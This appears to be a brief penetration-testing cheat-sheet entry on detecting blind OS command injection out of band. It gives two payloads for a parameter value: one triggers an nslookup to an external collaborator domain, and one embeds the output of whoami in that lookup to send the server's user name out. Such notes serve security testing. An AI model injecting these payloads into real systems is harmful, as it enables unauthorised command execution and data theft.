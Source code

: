 ## Blind OS Command Injection (OOB) Payload :

The following when appended to a parameter value can be used to test for the presence of a blind OS Command Injection vulnerability :

```
||nslookup+xjk7cdh9cyx7zmd4ior8025yfplg9jx8.oastify.com||
```

This can be expanded upon to exfiltrate certain data, for example, the user on the server :

```
||nslookup+$(whoami).xjk7cdh9cyx7zmd4ior8025yfplg9jx8.oastify.com||
```
